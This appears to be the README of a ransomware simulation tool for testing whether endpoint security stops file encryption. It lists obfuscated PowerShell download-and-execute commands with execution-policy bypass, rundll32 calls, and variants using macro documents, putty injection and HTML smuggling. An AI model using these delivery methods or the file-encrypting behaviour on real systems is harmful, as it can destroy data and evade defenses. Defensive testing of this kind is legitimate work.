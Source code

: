 # Really can protect from ransomware encryption?

We often come across antivirus and next-generation endpoint solutions that claim to offer ransomware protection, boasting advanced capabilities in detecting activities such as penetration, invasion, and pre-encryption through the use of AI and machine learning. However, these solutions may still fail to prevent the encryption process if they happen to miss detecting these malicious activities.

To address this concern, we have developed a simple tool that simulates the ransomware encryption process. This tool can help you determine whether your EDR (Endpoint Detection and Response) or antivirus software is capable of blocking such malware encryption behaviors.


[![Watch the video](https://raw.githubusercontent.com/eddiechu/Encrypt-Delete-Test/main/Image/mr.bean2.gif)](https://youtu.be/CQIq8GDtDG0)

**Stop encryption is the last defense, which cannot be neglected.**


# Which brand can detect encryption operation?

That's why I developed this tool.  It is not to replicate found malware, not vendor test tool, no bias, no need to install, just do encrypt (in memory) - overwrite (original file) - rename (file extension), simulate the core operation of ransomware.

It is safe enough to run it on your working PC and server, let you see the fact in your environment.

I have helped people to test this after WannaCry outbreak.  Luckly, I found few brands can detect it, and one of them can stop ransomware encryption initiated from remote PC via file share and RDP as well.  I did see a real Ransomware incident, that endpoint really could stop encryption, no loss.

You can refer to the source code if you know programming or you can download the complied files.

Hope there is no more ransomware incident!  Please share this blog with friends if you found it is useful.


# This tool


![alt text](https://raw.githubusercontent.com/eddiechu/Encrypt-Delete-Test/main/Image/EncryptDelTestv4.1b.gif)



This tool encrypts - overwrite - rename the files in the selected (local or network) folder and subfolder, you may create a temporary folder like C:\Encrypt-Delete-Test\, save this tool to there, then run it.  Be safe.

It tests if your endpoint can detect when encryption is happening (like base on the files change pattern), but NOT to test if your endpoint can prevent it from start.

It is great if you can share your test result with me for my record.


![alt text](https://raw.githubusercontent.com/eddiechu/Encrypt-Delete-Test/main/Image/summary2.png)


EncryptDelTestv4_1.jar
- runs on Windows and Mac OS
- requires at least Java 8, http://www.java.com
(usually java.exe or javaw.exe is a trusted software, it is more difficult for endpoint to detect)


EncryptDelTestv4.1.exe / NaughtyDelTestv4.1.exe + NaughtyDelTestv4.1.dll
- runs on Windows
- requires at least .NET Framework 4.0


EncryptDelTestv4.1.ps1
- runs on Windows
- requires PowerShell


Fileless
- (download and run in memory directly) 
- powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/eddiechu/Encrypt-Delete-Test/main/EncryptDelTestv4.1.ps1.txt')"
- powershell.exe -exec Bypass -noexit -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAcwA6AC8ALwByAGEAdwAuAGcAaQB0AGgAdQBiAHUAcwBlAHIAYwBvAG4AdABlAG4AdAAuAGMAbwBtAC8AZQBkAGQAaQBlAGMAaAB1AC8ARQBuAGMAcgB5AHAAdAAtAEQAZQBsAGUAdABlAC0AVABlAHMAdAAvAG0AYQBpAG4ALwBFAG4AYwByAHkAcAB0AEQAZQBsAFQAZQBzAHQAdgA0AC4AMQAuAHAAcwAxAC4AdAB4AHQAJwApAA==


EncryptDelTestv4.1.dll
- rundll32.exe EncryptDelTestv4.1.dll,Encrypt
- rundll32.exe EncryptDelTestv4.1.dll,Decrypt


NaughtyDelTestv4.1.xls (may be blocked by anti-virus)
- hide in Word Document


putty_naughty.exe (may be blocked by anti-virus)
- inject command in putty.exe


EncryptDelTestv4.1.html
- HTML smuggling to encode and embedded payload
- alternative download https://securitylab.pages.dev/EncryptDelTestv4.1

$${\color{red}Red}$$
{\color{red}Big}}\

| EncryptDelTestv4_1.jar | EncryptDelTestv4.1.exe | EncryptDelTestv4.1.ps1 | 
|---------------|---------------|---------------|
|![alt text](https://raw.githubusercontent.com/eddiechu/Encrypt-Delete-Test/main/Image/screen41.gif)|![alt text](https://raw.githubusercontent.com/eddiechu/Encrypt-Delete-Test/main/Image/screen40.gif)|![alt text](https://raw.githubusercontent.com/eddiechu/Encrypt-Delete-Test/main/Image/screen43.gif)|


# How it works

###### EncryptDelTestv4.1.ps1 (local drive)

| CANNOT detect | CAN detect |
|---------------|---------------|
|![alt text](https://raw.githubusercontent.com/eddiechu/Encrypt-Delete-Test/main/Image/screen43.gif)|![alt text](https://raw.githubusercontent.com/eddiechu/Encrypt-Delete-Test/main/Image/screen55.gif)|
| The tool encrypts all files, a red page is shown and all files are encrypted | The encryption operatoin is blocked, no red page is shown, few files are encrypted, but they are being restored |


#

###### EncryptDelTestv4.1.ps1 (remote attack)

| CAN detect |
|---------------|
|![alt text](https://raw.githubusercontent.com/eddiechu/Encrypt-Delete-Test/main/Image/screen56.gif)|
![alt text](https://raw.githubusercontent.com/eddiechu/Encrypt-Delete-Test/main/Image/endpoint3.gif)
|The tool tries to encrypt files in network drive (N:\), the server the encryption operaton from remote, few files are encrypted, but they are being restored|




Archived https://github.com/eddiechu-zz/Encrypt-Delete-Test






#

ransomware test tool
ransomware simulation
ransomware simulator
ransomware assessment
eddie chu
eddiechu.android@gmail.com
anti-ransomware
antivirus test
anti-virus test
endpoint test
infosec
security
cyber security
cybersecurity
incident response
hacker
antimalware
anti-malware
encryption
encrypt-del-test
encrypt-delete-test
encryptdeltest
encrypt overwrite rename
tool
test tool
defense
testing
pentest
penetration test
blue team
red team
poc
